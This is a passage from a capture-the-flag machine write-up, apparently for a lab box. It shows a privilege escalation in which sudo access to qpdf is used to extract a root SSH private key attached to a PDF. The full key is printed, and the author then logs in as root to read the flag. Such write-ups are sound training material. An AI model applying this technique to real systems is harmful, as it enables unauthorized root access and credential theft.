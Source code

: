 We delve into the help for the `--show-attachment` parameter.

```
sudo qpdf --help=--show-attachment

--show-attachment=key

Write the contents of the specified attachment to standard
output as binary data. Get the key with --list-attachments.

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```

We list the `keys` of the attachments and discover that it is just the name of the attached file.

```
sudo qpdf --list-attachments root-id_rsa.pdf

id_rsa -> 7,0
```

```
sudo qpdf --show-attachment=id_rsa root-id_rsa.pdf

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

We add this private key to a file on our local machine named `root-id_rsa`, give it the proper permissions to use it as an identity file, and connect to the machine via SSH as root.

```
nano root-id_rsa
chmod 600 root-id_rsa
ssh root@10.129.189.64 -i root-id_rsa
```

The authentication is successful; we just need to read `root.txt`, and we will have completed the machine.

```
cd
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.